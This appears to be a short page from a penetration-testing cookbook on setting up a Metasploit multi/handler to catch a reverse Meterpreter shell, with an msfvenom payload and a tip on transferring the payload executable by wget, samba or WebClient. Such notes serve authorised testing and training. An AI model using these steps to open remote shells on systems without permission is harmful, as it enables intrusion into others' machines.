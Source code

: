 ```yaml
---
layout: default
title: Meterpreter
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Manual Meterpreter shell
Create a payload using `msfvenom`. Start `msfconsole` and load multi-handler:
```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > set LPORT 4444
msf5 exploit(multi/handler) > show options
msf5 exploit(multi/handler) > run
```

If you get the following error, it's possible the file has not transfered properly. Transfer the file using `wget`, samba or `WebClient.DownloadFile` instead:
```
Program 'rs.exe' failed to run: The specified executable is not a valid application for this OS platform.At line:1 char:1
```